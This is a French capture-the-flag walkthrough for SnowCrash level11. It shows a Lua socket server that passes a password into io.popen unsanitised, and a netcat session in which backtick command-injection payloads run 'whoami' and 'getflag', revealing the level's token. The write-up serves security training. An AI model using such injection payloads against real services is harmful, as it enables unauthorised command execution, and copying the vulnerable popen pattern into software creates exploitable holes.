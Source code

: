 On trouve dans le dossier **home** un fichier **level11.lua** qui contient:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	data = prog:read("*all")
	prog:close()
	data = string.sub(data, 1, 40)
	return data
end

while 1 do
	local client = server:accept()
	client:send("Password: ")
	client:settimeout(60)
	local l, err = client:receive()
	if not err then
		print("trying " .. l)
		local h = hash(l)
		if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
			client:send("Erf nope..\n");
		else
			client:send("Gz you dumb*\n")
		end
	end
	client:close()
end
```

On observe que le programme est lancé sur **127.0.0.1:5151**, donc pour pouvoir interagir avec on utilise:
<pre><code>> nc 127.0.0.1 5151
Password:
Erf nope..</code></pre>

En regardant le programme de plus près, on se rend compte qu'une injection est possible <code>io.popen("echo "..pass.." | sha1sum", "r")</code> car il exécute la variable **pass**, qui est notre input.
De plus la deuxième partie du code ne sert à rien car peut importe le mot de passe, le programme se termine par un simple message.
> Le bon mot de passe est: **NotSoEasy** (rajouter un -n devant pour que cela fonctionne)

On essaie :
<pre><code>> nc 127.0.0.1 5151
Password: `whoami > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
flag11
</code></pre>
> On stocke le résultat dans un fichier car sinon il n'y a pas d'affichage : il ne s'agit pas d'un <code>client:send()</code>

<pre><code>> nc 127.0.0.1 5151
Password: `getflag > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</code></pre>

<pre>
<code>> getflag</code>
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</pre>